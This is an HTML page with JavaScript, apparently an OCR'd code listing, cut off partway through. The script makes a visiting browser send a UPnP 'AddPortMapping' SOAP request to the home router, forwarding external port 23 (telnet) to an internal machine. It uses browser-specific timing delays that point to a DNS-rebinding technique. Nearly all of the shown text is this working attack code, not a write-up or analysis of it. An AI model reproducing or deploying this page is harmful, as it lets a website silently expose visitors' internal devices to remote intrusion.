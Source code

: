 
~~~HTML
<html>
<head>
<!-- Some helper functions -->
<script src="js/a.js"></script>
</head>
<body>
<div id="inject"></div>
<script>
var sent = 0;

function sendRouter(url, path, data)	{
	var xhr = new XMLHttpRequest();

	xhr.open("POST", url + path, true);

	xhr.setRequestHeader("soapaction", "test");

	xhr.onreadystatechange = function()	{
		if (xhr.readyState == xhr.DONE) {
			console.log("DONE");
		}
	};
	xhr.send(data);
}

function sendRouterMid(xhr)	{
	var path = "/WANIPConnection"
	var data = urldecode("%3C%3Fxml%20version%3D%221.0%22%3F%3E%0D%0A%3Cs%3AEnvelope%20xmlns%3As%3D%22http%3A%2F%2Fschemas.xmlsoap.org%2Fsoap%2Fenvelope%2F%22%20s%3AencodingStyle%3D%22http%3A%2F%2Fschemas.xmlsoap.org%2Fsoap%2Fencoding%2F%22%3E%0D%0A%3Cs%3ABody%3E%0D%0A%3Cu%3AAddPortMapping%20xmlns%3Au%3D%22urn%3Aschemas-upnp-org%3Aservice%3AWANIPConnection%3A1%22%3E%0D%0A%20%20%3CNewRemoteHost%3E%3C%2FNewRemoteHost%3E%0D%0A%20%20%3CNewExternalPort%3E23%3C%2FNewExternalPort%3E%0D%0A%20%20%3CNewProtocol%3ETCP%3C%2FNewProtocol%3E%0D%0A%20%20%3CNewInternalPort%3E23%3C%2FNewInternalPort%3E%0D%0A%20%20%3CNewInternalClient%3E192.168.0.3%3C%2FNewInternalClient%3E%0D%0A%20%20%3CNewEnabled%3E1%3C%2FNewEnabled%3E%0D%0A%20%20%3CNewPortMappingDescription%3Enode%3Anat%3Aupnp%3C%2FNewPortMappingDescription%3E%0D%0A%20%20%3CNewLeaseDuration%3E0%3C%2FNewLeaseDuration%3E%0D%0A%3C%2Fu%3AAddPortMapping%3E%0D%0A%3C%2Fs%3ABody%3E%0D%0A%3C%2Fs%3AEnvelope%3E");
	
	if(browser() == "IE" || browser() == "Edge")	{
		wait = 3 * 1000;
	}
	else if(browser() == "Firefox")	{
		wait = 1 * 1000;
	}
	else	{
		wait = 61 * 1000;

	}

	setTimeout(function(){
		sendRouter(url, path, data);
	}, wait);
}

function sendIntervals(xhr)	{
	wait=5 * 1000;
	sent += 1;
	
	// The real server should always return HTTP 200
	if(xhr != null && xhr.status != 200)	{
		console.log("Got 404 response");
		sendRouterMid(null);
~~~